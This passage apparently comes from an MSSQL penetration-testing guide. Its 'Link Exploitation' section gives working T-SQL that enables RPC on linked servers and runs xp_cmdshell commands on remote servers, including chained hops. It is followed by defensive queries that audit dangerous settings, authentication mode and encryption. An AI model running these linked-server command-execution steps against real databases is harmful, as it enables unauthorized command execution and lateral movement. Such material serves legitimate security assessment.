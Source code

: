 #### Link Exploitation
```sql
-- Enable RPC on link
EXEC sp_serveroption 'REMOTE_SERVER', 'rpc out', 'true';

-- Execute on remote server via link
EXEC ('EXEC xp_cmdshell ''whoami''') AT [REMOTE_SERVER];

-- Chain through multiple links
EXEC ('EXEC (''EXEC xp_cmdshell ''''whoami'''''') AT [REMOTE_SERVER2]') AT [REMOTE_SERVER1];
```

---

## Configuration Analysis

### Dangerous MSSQL Settings

#### Security Configuration Review
```sql
-- Check dangerous configurations
SELECT name, value_in_use, description FROM sys.configurations 
WHERE name IN (
    'xp_cmdshell',
    'Ole Automation Procedures', 
    'Ad Hoc Distributed Queries',
    'Database Mail XPs',
    'SQL Mail XPs',
    'Agent XPs'
);

-- Check authentication mode
SELECT SERVERPROPERTY('IsIntegratedSecurityOnly') as WindowsAuthOnly;

-- Check sa account status
SELECT name, is_disabled FROM sys.server_principals WHERE name = 'sa';
```

#### Network Configuration
```sql
-- Check network protocols
EXEC xp_readerrorlog 0, 1, N'Server is listening on';

-- Check encryption settings
SELECT 
    session_id,
    encrypt_option,
    auth_scheme 
FROM sys.dm_exec_connections;

-- Check named pipes
SELECT name, value_in_use FROM sys.configurations WHERE name = 'remote access';
```
